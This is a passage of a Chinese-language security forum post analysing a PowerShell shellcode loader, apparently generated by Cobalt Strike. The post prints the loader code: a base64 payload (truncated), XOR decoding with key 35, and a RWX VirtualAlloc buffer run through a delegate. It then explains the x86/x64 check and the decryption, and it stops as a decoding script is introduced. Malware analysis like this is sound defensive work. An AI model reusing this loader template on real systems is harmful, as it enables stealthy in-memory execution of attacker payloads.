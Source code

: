 ```php
    \[Byte\[\]\]$var\_code \= \[System.Convert\]::FromBase64String('bnlicXZrqsZr............................................jIyMjIyMjIyMjIyMjIyMjIyMjIyMjIyMjIyMjIyMjIyMjIyMjIyMjIyMjIyMjIyMjIyMjIyMjIyMjIyMjIyMjIyMjIyMjIyMjIyMjIyMjIyMjIyMjIyMjIyMjIyMjIyMjIyMjIyMjIyMjIyMjIyMjIyMjIyMjIyMjIyMjIyMjIyMjIyMjIw==')  
​  
    for ($x \= 0; $x \-lt $var\_code.Count; $x++) {  
        $var\_code\[$x\] \= $var\_code\[$x\] \-bxor 35  
    }  
​  
    $var\_va \= \[System.Runtime.InteropServices.Marshal\]::GetDelegateForFunctionPointer((func\_get\_proc\_address kernel32.dll VirtualAlloc), (func\_get\_delegate\_type @(\[IntPtr\], \[UInt32\], \[UInt32\], \[UInt32\]) (\[IntPtr\])))  
    $var\_buffer \= $var\_va.Invoke(\[IntPtr\]::Zero, $var\_code.Length, 0x3000, 0x40)  
    \[System.Runtime.InteropServices.Marshal\]::Copy($var\_code, 0, $var\_buffer, $var\_code.length)  
​  
    $var\_runme \= \[System.Runtime.InteropServices.Marshal\]::GetDelegateForFunctionPointer($var\_buffer, (func\_get\_delegate\_type @(\[IntPtr\]) (\[Void\])))  
    $var\_runme.Invoke(\[IntPtr\]::Zero)  
}  
​
```

这里面其实就是定了一个两个方法（func\_get\_proc\_address、func\_get\_delegate\_type），然后代码逻辑里面是做了一个if条件判断然后执行一段代码，代码里面调用上面定义的两个方法。

0x04 分析代码逻辑
===========

if的判断条件是`[IntPtr]::size`的值

![image.png](https://shs3.b.qianxin.com/attack_forum/2022/09/attach-4cf7c11ed7c2e9210b27cc4289d8c80dc9a89905.png)

这个值是用来判断powershell的session是x86还是x64:

如下：x64里面`[IntPtr]::size`为8

![image.png](https://shs3.b.qianxin.com/attack_forum/2022/09/attach-f03b83e877bab807a0845c85d707fddce1cd85c6.png)

x86是里面是`[IntPtr]::size`为4。其实这里就是我们在生成payload的时候我们是否勾选x64:

![image.png](https://shs3.b.qianxin.com/attack_forum/2022/09/attach-242630acafaad01999f462f75e925e411dbb9708.png)

if条件满足后，定义了一个字节数组var\_code，这个的内容是对后面那串base64解码之后的内容。

![image.png](https://shs3.b.qianxin.com/attack_forum/2022/09/attach-7183e61127e26e3c934b29e109bfcbedf7964dcd.png)

随后进入一个for循环，for循环里面是对var\_code里面的字节逐个做异或，异或35(异或是模2同余运算，所以加解密的操作一样，这里是解密)

![image.png](https://shs3.b.qianxin.com/attack_forum/2022/09/attach-70ba5681dbcf60ec2a500c88fd0a06d3f338b61c.png)

这里其实是在做还原，只不过因为异或的特殊性，异或就是2进制里面的mod2同余操作，所以这里在生成payload的时候的加密操作也是和35做异或，最后解密也是异或。

这里我们简单写个脚本解密和解密下：还是用java来：
